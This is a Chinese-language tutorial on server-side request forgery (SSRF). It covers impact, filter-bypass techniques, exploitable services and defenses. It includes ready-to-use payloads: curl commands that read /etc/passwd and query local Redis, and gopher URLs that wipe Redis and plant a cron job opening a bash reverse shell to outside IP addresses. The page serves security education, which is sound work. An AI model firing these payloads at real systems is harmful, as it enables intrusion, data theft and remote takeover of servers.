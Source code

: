 SSRF
========================================

简介
----------------------------------------
服务端请求伪造（Server Side Request Forgery, SSRF）指的是攻击者在未能取得服务器所有权限时，利用服务器漏洞以服务器的身份发送一条构造好的请求给服务器所在内网。SSRF攻击通常针对外部网络无法直接访问的内部系统。

漏洞危害
----------------------------------------
SSRF可以对外网、服务器所在内网、本地进行端口扫描，攻击运行在内网或本地的应用，或者利用File协议读取本地文件。

内网服务防御相对外网服务来说一般会较弱，甚至部分内网服务为了运维方便并没有对内网的访问设置权限验证，所以存在SSRF时，通常会造成较大的危害。

利用方式
----------------------------------------
SSRF利用存在多种形式以及不同的场景，针对不同场景可以使用不同的绕过方式。

以curl为例, 可以使用dict protocol操作Redis、file协议读文件、gopher协议反弹Shell等功能，常见的Payload如下：

:: 

    curl -vvv 'dict://127.0.0.1:6379/info'

    curl -vvv 'file:///etc/passwd' 

    # * 注意: 链接使用单引号，避免$变量问题

    curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/103.21.140.84/6789 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a' 

相关危险函数
----------------------------------------
SSRF涉及到的危险函数主要是网络访问，支持伪协议的网络读取。以PHP为例，涉及到的函数有 ``file_get_contents()`` / ``fsockopen()`` / ``curl_exec()`` 等。

过滤绕过
----------------------------------------

更改IP地址写法
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一些开发者会通过对传过来的URL参数进行正则匹配的方式来过滤掉内网IP，如采用如下正则表达式：

- ``^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$``
- ``^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$``
- ``^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$``

对于这种过滤我们采用改编IP的写法的方式进行绕过，例如192.168.0.1这个IP地址可以被改写成：

- 8进制格式：0300.0250.0.1
- 16进制格式：0xC0.0xA8.0.1
- 10进制整数格式：3232235521
- 16进制整数格式：0xC0A80001

还有一种特殊的省略模式，例如10.0.0.1这个IP可以写成10.1。

利用解析URL所出现的问题
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在某些情况下，后端程序可能会对访问的URL进行解析，对解析出来的host地址进行过滤。这时候可能会出现对URL参数解析不当，导致可以绕过过滤。

比如 ``http://www.baidu.com@192.168.0.1/`` 当后端程序通过不正确的正则表达式（比如将http之后到com为止的字符内容，也就是www.baidu.com，认为是访问请求的host地址时）对上述URL的内容进行解析的时候，很有可能会认为访问URL的host为www.baidu.com，而实际上这个URL所请求的内容都是192.168.0.1上的内容。

利用跳转
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果后端服务器在接收到参数后，正确的解析了URL的host，并且进行了过滤，我们这个时候可以使用跳转的方式来进行绕过。

比如 ``xip.io`` 提供了一个方便的服务，当用户访问这个网站的子域名的时候，例如192.168.0.1.xip.io，就会自动重定向到192.168.0.1。

但是由于上述方法中包含了192.168.0.1这种内网IP地址，可能会被正则表达式过滤掉，这种方式可以通过短地址的方式来绕过。

常用的跳转有302跳转和307跳转，区别在于307跳转会转发POST请求中的数据等，但是302跳转不会。

通过各种非HTTP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果服务器端程序对访问URL所采用的协议进行验证的话，可以通过非HTTP协议来进行利用。

比如通过gopher，可以在一个url参数中构造POST或者GET请求，从而达到攻击内网应用的目的。例如可以使用gopher协议对与内网的Redis服务进行攻击，可以使用如下的URL：

::

    gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1* * * * bash -i >& /dev/tcp/172.19.23.228/23330>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a

除了gopher协议，File协议也是SSRF中常用的协议，该协议主要用于访问本地计算机中的文件，我们可以通过类似 ``file:///path/to/file`` 这种格式来访问计算机本地文件。使用file协议可以避免服务端程序对于所访问的IP进行的过滤。例如我们可以通过 ``file:///d:/1.txt`` 来访问D盘中1.txt的内容。

DNS Rebinding
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一个常用的防护思路是：对于用户请求的URL参数，首先服务器端会对其进行DNS解析，然后对于DNS服务器返回的IP地址进行判断，如果在黑名单中，就禁止该次请求。

但是在整个过程中，第一次去请求DNS服务进行域名解析到第二次服务端去请求URL之间存在一个时间差，利用这个时间差，可以进行DNS重绑定攻击。

要完成DNS重绑定攻击，我们需要一个域名，并且将这个域名的解析指定到我们自己的DNS Server，在我们的可控的DNS Server上编写解析服务，设置TTL时间为0。这样就可以进行攻击了，完整的攻击流程为：

- 服务器端获得URL参数，进行第一次DNS解析，获得了一个非内网的IP
- 对于获得的IP进行判断，发现为非黑名单IP，则通过验证
- 服务器端对于URL进行访问，由于DNS服务器设置的TTL为0，所以再次进行DNS解析，这一次DNS服务器返回的是内网地址。
- 由于已经绕过验证，所以服务器端返回访问内网资源的结果。

利用IPv6
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
有些服务没有考虑IPv6的情况，但是内网又支持IPv6，则可以使用IPv6的本地IP如 ``[::]`` ``0000::1`` 或IPv6的内网域名来绕过过滤。


利用IDN
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一些网络访问工具如Curl等是支持国际化域名（Internationalized Domain Name，IDN）的，国际化域名又称特殊字符域名，是指部分或完全使用特殊的文字或字母组成的互联网域名。

在这些字符中，部分字符会在访问时做一个等价转换，例如 ``ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ`` 和 ``example.com`` 等同。利用这种方式，可以用 ``① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩`` 等字符绕过内网限制。

可能的利用点
----------------------------------------
- ftp、ftps （FTP爆破）
- sftp
- tftp（UDP协议扩展） 
- dict
- gopher
- ldap
- imap/imaps/pop3/pop3s/smtp/smtps（爆破邮件用户名密码） 
- rtsp - smb/smbs（连接SMB） 
- telnet 
- http、https
- mongodb
- ShellShock命令执行 
- JBOSS远程Invoker war命令执行 
- Java调试接口命令执行 
- axis2-admin部署Server命令执行 
- Jenkins Scripts接口命令执行 
- Confluence SSRF 
- Struts2 命令执行 
- counchdb WEB API远程命令执行 
- docker API远程命令执行 
- php_fpm/fastcgi 命令执行 
- tomcat命令执行 
- Elasticsearch引擎Groovy脚本命令执行 
- WebDav PUT上传任意文件 
- WebSphere Admin可部署war间接命令执行 
- Apache Hadoop远程命令执行 
- zentoPMS远程命令执行 
- HFS远程命令执行 
- glassfish任意文件读取和war文件部署间接命令执行

防御方式
----------------------------------------
- 过滤返回的信息
- 统一错误信息
- 限制请求的端口
- 禁止不常用的协议
- 对DNS Rebinding，考虑使用DNS缓存或者Host白名单

参考链接
----------------------------------------
- `SSRF漏洞分析与利用 <http://www.91ri.org/17111.html>`_
- `A New Era Of SSRF <https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf>`_
- `php ssrf technique <https://medium.com/secjuice/php-ssrf-techniques-9d422cb28d51>`_
- `谈一谈如何在Python开发中拒绝SSRF漏洞 <https://www.leavesongs.com/PYTHON/defend-ssrf-vulnerable-in-python.html>`_
- `SSRF Tips <http://blog.safebuff.com/2016/07/03/SSRF-Tips/>`_
- `SSRF in PHP <https://joychou.org/web/phpssrf.html>`_
